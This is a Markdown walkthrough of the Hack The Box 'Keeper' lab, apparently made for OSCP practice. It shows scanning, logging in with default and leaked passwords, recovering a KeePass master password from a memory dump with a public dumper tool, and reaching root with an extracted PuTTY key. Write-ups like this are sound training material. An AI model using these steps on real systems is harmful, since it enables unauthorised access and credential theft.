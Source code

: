 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Recon

# Full port scan
```bash
nmap -p- --min-rate 10000 10.10.11.227
```
 
 # Version and script scan
```bash
nmap -p 22,80 -sCV 10.10.11.227
```

```bash
ffuf -u http://10.10.11.227 -H "Host: FUZZ.keeper.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
```

```bash
echo "10.10.11.227 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
```

---

## 🔐 Request Tracker Access

```text
URL: http://tickets.keeper.htb/rt/
Username: root
Password: password
```

> Default credentials work. One support ticket reveals a KeePass memory dump.

---

## 🧑‍💻 [Shell as lnorgaard](SSH)

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@keeper.htb
cat user.txt
```

---

## 🧠 KeePass Dump Analysis

Files found:

```bash
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
```

```
unzip RT30000.zip
# -> KeePassDumpFull.dmp (RAM dump)
# -> passcodes.kdbx (KeePass database)
```

---

## 📥 CVE-2022-32784 - KeePass Password Disclosure

**References:**

- [GitHub - vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)

### 🪟 Windows (DotNet)

```powershell
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
```

```
dotnet run Z:\path\to\KeePassDumpFull.dmp
```

### 🐧 Linux (Docker workaround)

```bash
docker run --rm -it -v $(pwd):/data mcr.microsoft.com/dotnet/sdk:7.0.100
```

```
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run /data/KeePassDumpFull.dmp
```

> Recovers: `●rødgrød med fløde`

---

## 🔓 KeePass Access

```bash
apt install kpcli
kpcli --kdb passcodes.kdbx
# Master password: rø dgrød med fløde
```

Useful credentials:

- **User:** root  
- **Notes:** PuTTY private key in legacy format

---

## 🔁 PuTTY to OpenSSH Key Conversion

```bash
apt install putty-tools
puttygen root-putty.key -O private-openssh -o keeper-root.key
chmod 600 keeper-root.key
```

---

## 🧑‍🚀 Root Access

```bash
ssh -i keeper-root.key root@keeper.htb
cat /root/root.txt
```